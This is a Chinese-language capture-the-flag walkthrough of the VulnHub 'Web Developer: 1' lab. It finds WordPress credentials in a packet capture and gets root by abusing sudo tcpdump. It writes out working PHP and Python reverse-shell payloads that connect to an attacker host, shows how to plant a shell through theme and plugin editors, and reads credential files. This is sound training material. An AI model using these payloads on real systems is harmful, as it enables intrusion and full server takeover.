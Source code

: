 # Web Developer: 1

2024-5-1 https://www.vulnhub.com/entry/web-developer-1,288/

difficulty: not know

## IP

192.168.5.24

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d2ac734c17ec6a8279875af922d412cb (RSA)
|   256 9cd5f32ce2d006cc8c155a5a815b033d (ECDSA)
|_  256 ab67566927ea3e3b337332f8ff2e1f20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Example site &#8211; Just another WordPress site
|_http-generator: WordPress 4.9.8
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

只开放了 2 个端口，22 端口 banner 没什么提示信息。

80 web 端口为 WordPress，攻击向量很多。先进行下目录扫描，看看有没有什么隐藏目录：

```
gobuster dir -t 64 -e -r -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403,404,405 -x php,txt,html -u http://192.168.5.24/

http://192.168.5.24/ipdata               (Status: 200) [Size: 944]
http://192.168.5.24/license.txt          (Status: 200) [Size: 19935]
http://192.168.5.24/readme.html          (Status: 200) [Size: 7415]
http://192.168.5.24/wp-includes          (Status: 200) [Size: 41067]
http://192.168.5.24/wp-content           (Status: 200) [Size: 0]
http://192.168.5.24/wp-cron.php          (Status: 200) [Size: 0]
http://192.168.5.24/wp-blog-header.php   (Status: 200) [Size: 0]
http://192.168.5.24/wp-links-opml.php    (Status: 200) [Size: 222]
http://192.168.5.24/wp-load.php          (Status: 200) [Size: 0]
http://192.168.5.24/wp-login.php         (Status: 200) [Size: 2160]
http://192.168.5.24/wp-config.php        (Status: 200) [Size: 0]
http://192.168.5.24/index.php            (Status: 200) [Size: 52813]
http://192.168.5.24/index.php            (Status: 200) [Size: 52813]
http://192.168.5.24/wp-trackback.php     (Status: 200) [Size: 135]
http://192.168.5.24/wp-admin             (Status: 200) [Size: 2179]
http://192.168.5.24/wp-signup.php        (Status: 200) [Size: 2302]
```

http://192.168.5.24/ipdata 为除了 wordpress 之外的目录，目录中有一个 analyze.cap 文件，是一个网络抓包文件，wireshark 打开，看看有没有密码等信息，追踪流后发现了 POST 登陆的信息：

```
POST /wordpress/wp-login.php HTTP/1.1
Host: 192.168.1.176
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.176/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&reauth=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 152
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive
Upgrade-Insecure-Requests: 1

log=webdeveloper&pwd=Te5eQg%264sBS%21Yr%24%29wf%25%28DcAd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&testcookie=1HTTP/1.1 302 Found
```

可以看到用户凭证为：webdeveloper:Te5eQg&4sBS!Yr$)wf%(DcAd 尝试用此凭据进行登陆，登陆成功，看到 webdeveloper 是 Administrator 权限。

下一步，在 wp 中插入 web shell，反弹到 kali 中。

### 反弹 1：

通过编辑 theme，发现 twenty sixteen 可以在更改 php 代码后进行保存，所以切换到该主题。编辑 404.php 把我们的后门代码写入其中，然后访问 http://192.168.5.24/wp-content/themes/twentysixteen/404.php 触发反弹代码。

### 反弹 2：

修改插件页面的源代码，在 http://192.168.5.24/wp-admin/plugin-editor.php 下的页面 akismet/akismet.php 中插入 php 反弹代码：

```
$sock=fsockopen("192.168.5.10",8888);$proc=proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

kali 上建立 8888 监听，然后访问 http://192.168.5.24/wp-content/plugins/akismet/akismet.php 或者在 插件页面 Active 插件也能激活反弹代码，在 kali 上得到了反弹的 shell。

### 反弹 3：

在 Appearance->Add New->Upload Theme->文件上传，然后在 http://192.168.5.24/wp-content/uploads 中就能看到我们上传的 php 代码，点击反弹 shell 的连接，我们就能得到反弹的 shell。

先升级 tty，目标系统中装了 python3，使用它升级：python3 -c 'import pty; pty.spawn("/bin/bash")'

tty 正常后，开始对系统进行攻击向量的枚举。

先看看 wordpress 的数据库连接配置信息是什么：

```
cat /var/www/html/wp-config.php

define('DB_NAME', 'wordpress');
define('DB_USER', 'webdeveloper');
define('DB_PASSWORD', 'MasterOfTheUniverse');
define('DB_HOST', 'localhost');
```

查看 /etc/passwd 后发现用户：

```
webdeveloper:x:1000:1000:WebDeveloper:/home/webdeveloper:/bin/bash
```

尝试用上面得到的数据库密码，切换到该用户，切换成功，我们得到了一个普通用户权限。

sudo -l 看看有什么特权执行命令：

```
(root) /usr/sbin/tcpdump
```

GTFO 上找到利用的代码：

ip a s 先看看目标机器上有哪些网卡：eth0

```
COMMAND='python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.10",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z $TF -Z root
```

最终在 kali 上获得了反弹的 root shell。
